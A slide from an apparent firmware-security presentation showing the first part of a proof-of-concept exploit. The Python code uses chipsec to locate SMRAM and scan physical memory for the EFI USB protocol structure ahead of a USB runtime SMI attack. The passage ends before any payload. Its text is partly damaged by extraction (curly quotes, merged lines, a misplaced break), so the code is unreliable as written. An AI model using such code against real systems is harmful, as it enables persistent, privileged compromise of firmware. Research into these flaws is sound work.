

Step 5. Writing PoC
from struct import pack, unpack
import chipsec.chipset
from chipsec.hal.interrupts import Interrupts
PAGE_SIZE = 0x1000
SMI_USB_RUNTIME = 0x31
cs = chipsec.chipset.cs() cs.init(None, True, True)
intr = Interrupts(cs)
SMRAM = cs.cpu.get_SMRAM()[0]
mem_read = cs.helper.read_physical_mem
mem_write = cs.helper.write_physical_mem
mem_alloc = cs.helper.alloc_physical_mem
# locate EFI_USB_PROTOCOL and usb_data in the memory
for addr in xrange(SMRAM / PAGE_SIZE - 1, 0, -1):
	if mem_read(addr * PAGE_SIZE, 4) == ‘USBP’:
		usb_protocol = addr * PAGE_SIZE
		usb_data = unpack(“<Q”, mem_read(addr * PAGE_SIZE + 8, 8))[0]
break